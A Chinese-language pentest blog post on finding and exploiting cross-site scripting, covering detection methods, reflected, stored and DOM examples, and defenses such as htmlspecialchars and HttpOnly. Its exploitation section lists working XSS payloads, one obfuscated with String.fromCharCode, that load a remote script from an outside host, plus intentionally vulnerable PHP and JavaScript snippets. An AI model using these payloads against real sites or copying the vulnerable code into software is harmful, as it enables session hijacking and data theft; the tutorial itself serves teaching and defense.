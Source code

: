 +++
date = "2016-07-15T16:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS漏洞挖掘与利用"
topics = ["Pentest"]

+++

### 0x00 XSS的检测
检测XSS一般分两种方法：一种是手工检测、一种是软件自动检测  
手工检测：检测结果准确，但对于大型web来说费时费力  
软件检测：方便省力，但存在误报，且有些隐蔽的XSS无法检测出  
<font color="FF0000">检测XSS最重要的就是考虑哪里有输入，输入的数据在哪里输出</font>

* 手工检测
```
可得知输出位置:
    • 输入敏感字符，如<、>、"、'、()等，然后在提交后查看html源代码，看这些字符是否被转义。
    • 在输出这些字符时，程序可能已经进行了过滤，可以输入“AAAAAA<>"&'()”字符串，然后查找AAAAAA或许比较方便。
无法得知输出位置:
    很多web应用程序源码不公开，在测试时不能得知输出位置，比如，有些留言版在留言后必须经过管理员审核才能显示，无法得知数据在后台管理页面处于何种状态，如：
    在标签中：<div>XSS Test</div>
    在属性内：<input type="text" name="content" value="XSS Test" />
    这种情况通常采用输入"/>XSS Test来测试。
```

* 全自动检测XSS
如APPSCAN、AWVS、Burp Suite等软件都可以有效的检测XSS，他们还会检测其他的漏洞，但是他们的效率不如专业的XSS检测工具高。  
专业的XSS扫描工具有知名的XSSER、XSSF等，还有专门扫描DOM类型XSS的web服务(www.domxssscanner.com)。  
一般要手工和软件一起使用，因为有些XSS软件不能检测，比如有些留言需要输入验证码等，工具无法做到。

### 0x01 XSS的挖掘与利用
* XSS漏洞挖掘
```
反射型XSS：
    一般是url参数中的值能够回显到HTML中，且url的参数值没有过滤或过滤不严
存储型XSS：
    可以提交内容
    提交的内容可被管理员或其他用户看到
    提交的内容没有被过滤或过滤不严
```

* XSS漏洞利用
XSS一般就是闭合标签，和SQL注入类似，常见payload如下：
```
• <script src='http://b.ioio.pub/xss/probe.js'></script>
• <img src=x onerror="s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js'";>
• <svg onload=s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js>
• <svg onload=eval(String.fromCharCode(115,61,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,
    114,105,112,116,39,41,59,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59,
    115,46,115,114,99,61,39,104,116,116,112,58,47,47,98,46,105,111,105,111,46,112,117,98,47,120,115,115,47,
    112,114,111,98,101,46,106,115)) >
```

### 0x03 XSS简单示例
```
反射型xss简单示例:
    • <?php
          echo $_GET['x'];
      ?>
    • 提交：
      /xss.php?x=<script>alert(1)</script>
    • 服务端解析时就会触发弹窗
```
```
下面是一段简单的DOM型XSS示例：
<script>
    var temp = document.URL; //获取URL
    var index = document.URL.indexOf("content");
    var par = temp.substrint(index);
    document.write(decodeURL(par)); //输入获取内容
</script>
上述代码的意思是获取URL中content参数的值，并且输出，若输入http://www.xxx.com/dom.html?content=<script>alert(/xss/)</script>，就会产生XSS漏洞。
```
```
只要在script标签中添加JavaScript代码，就能实现一些“特殊效果”，但通常在真实攻击中
一般使用<script src="http://www.xxx.com/a.txt"></script>的方式来加载外部脚本，
a.txt中就存放着恶意脚本。

注：JavaScript加载的脚本文件可以是任意扩展名，甚至没有也行，只要加载的文件中含有
    JavaScript代码就会被执行。
```

### 0x04 XSS的防御
* 过滤输入与输出(重点)

使用htmlspecialchars()和htmlentities()将一些预定义的字符转换为HTML实体
```
<?php
    @$html = $_GET['x'];
    if ($html){
        echo htmlspecialchars($html);
    }
?>
```

* HttpOnly

```
HttpOnly并不能防御XSS，但它能解决XSS漏洞后面的Cookie劫持攻击，防止XSS会话劫持
```